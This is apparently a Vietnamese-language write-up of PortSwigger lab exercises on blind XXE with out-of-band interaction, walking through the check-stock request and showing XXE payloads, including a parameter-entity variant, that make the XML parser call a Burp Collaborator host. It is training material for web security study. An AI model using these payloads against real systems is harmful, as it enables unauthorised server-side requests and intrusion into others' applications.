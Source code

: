 Mô tả nói rằng check stock vẫn sẽ là mục tiêu exploit của chúng ta tuy nhiên lần này lại là blind vulnerability và đề xuất chúng ta sử dụng out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) để khai thác.

Truy cập bài lab chúng ta lại thấy web bán hàng và tìm tới chức năng check stock rồi bắt lại request.

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_outofband_request.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_outofband_repeater.png?raw=true)

Tại đây chúng ta có thể thấy format của XML điều đó có nghĩa chúng ta có thể thực hiện 1 cuộc tấn công XXE cơ bản, tuy nhiên phải áp dụng out-of-band. Và Burp Collaboration sẽ cũng cấp cho chúng ta 1 client để nhận dữ liệu về. Từ đó có payload như sau :


```
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> ]>
```
![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_outofband_poll.png?raw=true)

Sau khi poll về chúng ta sẽ thấy data đã có thể chuyển về client điều này có nghĩa là chúng ta đã thành công tấn công OAST

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_outofband_solve.png?raw=true)



### Lab: Blind XXE with out-of-band interaction via XML parameter entities

```
This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
```
Đầu tiên chúng ta bắt lại request và thực thi thử XXE cơ bản thì nhận thấy rằng không có gì trả về : 

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_outofband_param_request.png?raw=true)

Đôi khi các cuộc tấn công external entity XXE thường bị chặn, do 1 số xác thực đầu vào của ứng dụng hoặc 
1 số quá trình làm cứng trình phần tích cú pháp XML đang được sử dụng. Trong trường hợp này chúng ta có 
thể sử dụng tham số XML để thay thế. Đầu tiên khai báo 1 thực thể tham số XML : 
```
<!ENTITY % myparameterentity "my parameter entity value" >
```

Sau đó tham chiếu thực thể như sau : 

```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://5flrcyoaljmclbaal1bjrgfj3a90xp.burpcollaborator.net"> %xxe; ]>
```
![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_outofband_param_payload.png?raw=true)
